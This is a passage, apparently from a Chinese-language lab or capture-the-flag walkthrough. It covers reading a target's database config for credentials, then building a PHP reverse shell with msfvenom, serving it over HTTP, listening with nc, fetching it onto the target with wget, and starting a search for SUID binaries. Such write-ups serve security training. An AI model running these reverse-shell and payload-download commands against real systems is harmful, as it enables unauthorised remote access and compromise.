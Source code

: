 

之前那个数据库文件`/config/database.php`去看看

![](./pic-1/17-4.jpg)



#### 反弹shell

获取到数据库的账户和密码，不知道能否可用于登录，测试发现无用，生成一个`php`反弹。为什么要生成呢，也是为了能够熟练其他操作，当然在蚁🗡上也是可以直接使用终端的。

这里只是生成一个简单的反弹`shell`，还可以用`msf`生成一个shell，然后使用`msf`中的`exploit/multi/handler`模块监听即可获取一个终端

```shell
kali上运行
msfvenom -p php/reverse_php LHOST=192.168.1.16 LPORT=9999 > te.php
python3 -m http.server 8888
nc -lvvp 9999

靶机下载后，通过浏览器访问该php文件，这里放入/upload下
wget http://192.168.1.16:8888/te.php
```



这里还是以蚁🗡的虚拟终端操作，寻找具有SUID权限的命令

![](./pic-1/18.jpg)
